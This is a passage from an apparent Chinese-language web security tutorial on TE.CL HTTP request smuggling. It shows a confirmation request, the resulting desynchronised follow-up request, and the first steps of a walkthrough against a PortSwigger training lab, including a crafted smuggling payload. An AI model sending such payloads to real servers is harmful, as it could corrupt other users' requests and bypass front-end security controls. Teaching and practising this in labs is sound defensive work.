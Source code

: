 [![](assets/1704418275-8d4bd75ebbbd115f4cbeb4846458e6b2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103154703-48bf7c7a-aa0c-1.png)

#### TE.CL vulnerabilities

如果要确认一个 TE.CL 漏洞，我们可以发送如下请求：

```plain
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

7c
GET /404 HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 144

x=
0
```

如果目标系统存在漏洞且被攻击成功，那么从 GET /404 开始的所有内容都会被后端服务器视为属于接收到的下一个请求，这将导致后续的"正常"请求如下所示：

```plain
GET /404 HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 146

x=
0

POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

q=smuggling
```

下面我们通过一个靶场进行简单的演示：  
靶场地址：[https://portswigger.net/web-security/request-smuggling/finding/lab-confirming-te-cl-via-differential-responses](https://portswigger.net/web-security/request-smuggling/finding/lab-confirming-te-cl-via-differential-responses)  
测试演示：  
Step 1：访问靶场并点击"ACCESS THELAB"进入到靶场  
[![](assets/1704418275-46c9cd32217bdc84880f10ff08ca49c3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103154841-833198f2-aa0c-1.png)  
Step 2：使用 burpsuite 抓包并构造如下恶意请求载荷

```plain
POST / HTTP/1.1
Host: 0a71000f036353f181142ace00340041.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

5e
POST /404 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```
